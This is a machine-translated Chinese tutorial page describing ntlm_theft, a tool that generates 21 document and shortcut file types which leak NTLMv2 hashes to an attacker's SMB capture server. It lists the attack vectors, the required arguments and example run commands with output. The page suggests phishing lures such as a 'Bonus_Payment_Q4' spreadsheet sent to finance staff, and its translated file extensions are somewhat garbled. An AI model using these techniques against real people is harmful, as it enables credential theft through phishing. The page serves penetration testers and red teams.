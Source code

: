 # Ntlm_Theft:一个用于生成多种 NTLMv2 哈希盗窃文件的工具

> 原文：<https://kalilinuxtutorials.com/ntlm_theft/>

[![](img//04d94b6828cdba7f98eea3e8a3c3372f.png)](https://1.bp.blogspot.com/-xxwMEHe_BMU/YUgoOXg_iPI/AAAAAAAAK5o/ComYLrCclr8sgDB33Im4Hag5Arbg63C7QCLcBGAsYHQ/s728/NTLM-hash-leaks%2B%25281%2529.png)

**Ntlm_Theft** 是一个生成多种类型的 NTLMv2 哈希窃取文件的工具。

ntlm_theft 是一个开源的 Python3 工具，可以生成 21 种不同类型的哈希盗窃文档。当目标允许其网络外的 smb 流量时，或者如果您已经在内部网络内，这些可用于网络钓鱼。

与基于宏的文档或漏洞文档相比，这些文件类型的优势在于所有这些都是使用“预期功能”构建的。2020 年 6 月，Windows Defender Antivirus 没有标记任何攻击，21 次攻击中有 17 次是在完全修补的 Windows 10 主机上进行的。

ntlm_theft 支持以下攻击类型:

*   浏览到包含以下内容的文件夹
    *   。url–通过 URL 字段
    *   。URL–通过图标文件字段
    *   。lnk–通过图标位置字段
    *   。SCF–通过图标文件字段(不适用于最新的 Windows)
    *   通过 OPEN field 运行 autorun.inf(不适用于最新的 Windows)
    *   desktop . ini–通过图标资源字段(不适用于最新的 Windows)
*   打开文档
    *   。XML–通过 Microsoft Word 外部样式表
    *   。XML–通过 Microsoft Word includepicture 字段
    *   。htm–通过 Chrome & IE & Edge img src(仅在本地打开，不托管)
    *   。docx–通过 Microsoft Word includepicture 字段
    *   。docx–通过 Microsoft Word 外部模板
    *   。docx–通过 Microsoft Word 框架集网站设置
    *   。xlsx–通过 Microsoft Excel 外部单元格
    *   。wax–通过 Windows Media Player 播放列表(更好，主要打开)
    *   。ASX–通过 Windows Media Player 播放列表(更好，主要打开)
    *   . m3u–通过 Windows Media Player 播放列表(更糟糕的是，Win10 首先在 Groovy 中打开)
    *   。jnlp–通过 Java 外部 jar
    *   。应用程序–通过任何浏览器(必须通过下载的浏览器提供，否则不会运行)
*   打开文档并接受弹出窗口
    *   。pdf–通过 Adobe Acrobat Reader
*   点击聊天程序中的链接
    *   。txt–粘贴到缩放聊天中的格式化链接

**用例(为什么要运行这个)**

ntlm_theft 主要针对渗透测试人员和 Red Teamers，他们将使用它对目标公司员工执行内部网络钓鱼，或者大规模测试防病毒和电子邮件网关。如果外围防火墙允许出站 SMB 访问，它也可能用于外部网络钓鱼。

我发现在渗透测试时，很容易看到我有哪些可用的文件类型，而不是像在 red teaming 项目中那样花费时间配置特定的攻击，这很有用。你可以发送一个. rtf 或者。docx 文件提交给人力资源部，一份. xlsx 电子表格文档提交给财务部。

**入门**

这些说明将向您展示 ntlm_theft 的要求和使用方法。

**先决条件**

ntlm_theft 需要 Python3 和 xlsxwriter:

**pip3 安装 xlsxwriter**

**所需参数**

要启动工具，必须提供 4 个参数，即输入格式、输入文件或文件夹以及基本运行模式:

**-g，–generate:选择生成所有文件或特定文件类型
-s，–server:您的 SMB 哈希捕获服务器的 IP 地址(Responder，impacket ntlmrelayx，Metasploit auxiliary/server/capture/SMB 等)
-f，–filename:不带扩展名的基本文件名，以后可以重命名(例如:test，Board-Meeting2020，Bonus_Payment_Q4)**

**示例运行**

下面是一个生成所有文件的运行示例:

**# python 3 NTLM _ theft . py-g all-s 127 . 0 . 0 . 1-f 测试
创建:test/test.scf(浏览)
创建:test/test-(url)。url(浏览)
已创建:测试/测试-(图标)。url(浏览)
创建:test/test.rtf(打开)
创建:test/test-(样式表)。xml (OPEN)
已创建:test/test-(fulldocx)。xml (OPEN)
已创建:test/test.htm(用 CHROME、IE 或 EDGE 从桌面打开)
已创建:test/test-(includepicture)。docx (OPEN)
已创建:test/test-(remotetemplate)。docx (OPEN)
已创建:test/test-(frameset)。docx(打开)
创建:test/test.m3u(仅在 WINDOWS MEDIA PLAYER 中打开)
创建:test/test.asx(打开)
创建:test/test.jnlp(打开)
创建:test/test.application(下载并打开)
创建:test/test.pdf(打开并允许)
创建:test/zoom-attack-instructions . txt(粘贴到聊天中)
生成完成。**

![](img//d76ba168d7cd37e796ce8ec09695a422.png)

下面是一个仅生成现代文件的运行示例:

**# python 3 NTLM _ theft . py-g modern-s 127 . 0 . 0 . 1-f meeting
跳过 SCF，因为它在 modern Windows 上不工作
创建:meeting/meeting-(url)。url(浏览至文件夹)
已创建:会议/会议-(图标)。url(浏览至文件夹)
创建:meeting/meeting.rtf (OPEN)
创建:meeting/meeting-(样式表)。xml (OPEN)
已创建:meeting/meeting-(fulldocx)。xml (OPEN)
已创建:meeting/meeting.htm(用 CHROME、IE 或 EDGE 从桌面打开)
已创建:meeting/meeting-(include picture)。docx (OPEN)
已创建:meeting/meeting-(remote template)。docx (OPEN)
已创建:meeting/meeting-(frameset)。docx (OPEN)
已创建:meeting/meeting-(externalcell)。xlsx(打开)
创建:meeting/meeting.m3u(仅在 WINDOWS MEDIA PLAYER 中打开)
创建:meeting/meeting.asx(打开)
创建:meeting/meeting.jnlp(打开)
创建:meeting/meeting.application(下载并打开)
创建:meeting/meeting.pdf(打开并允许)
跳过缩放，因为它在最新版本上不工作
跳过 Autorun.inf，因为它在现代 WINDOWS 上不工作** 

下面是一个仅生成 xlsx 文件的运行示例:

**# python 3 NTLM _ theft . py-g xlsx-s 192 . 168 . 1 . 103-f Bonus _ Payment _ Q4
已创建:Bonus _ Payment _ Q4/Bonus _ Payment _ Q4-(external cell)。【xlsx(开)】代完成。**

[**Download**](https://github.com/Greenwolf/ntlm_theft)